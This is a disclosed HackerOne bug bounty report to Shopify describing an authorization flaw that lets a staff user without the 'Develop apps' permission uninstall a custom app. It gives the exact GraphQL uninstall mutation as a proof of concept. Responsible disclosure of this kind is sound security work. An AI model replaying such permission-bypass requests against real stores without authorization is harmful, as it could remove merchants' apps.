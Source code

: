 # User with no Develop apps permission can Uninstall Custom App

## Report Details
- **Report ID**: 1466855
- **URL**: https://hackerone.com/reports/1466855
- **State**: Closed
- **Severity**: low
- **Submitted**: 2022-02-01T14:42:01.545Z
- **Disclosed**: 2022-04-21T20:33:37.262Z

## Reporter
- **Username**: ayyoub
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
Hi,

You know user must have Develop apps permission to Uninstall  Develop apps 
to test this just create staff with `Manage and install apps and channels`

{F1601504}

send this mutation just change appId by your id

```
{"operationName":"UninstallCustomApp","variables":{"appId":"gid://shopify/App/6431893"},"query":"mutation UninstallCustomApp($appId: ID!) {\n  appUninstall(input: {id: $appId}) {\n    app {\n      id\n      __typename\n    }\n    userErrors {\n      field\n      message\n      __typename\n    }\n    __typename\n  }\n}\n"}
```

## Impact

User with no Develop apps permission can Uninstall Custom App

## Attachments
- uninstallapp_(1).PNG
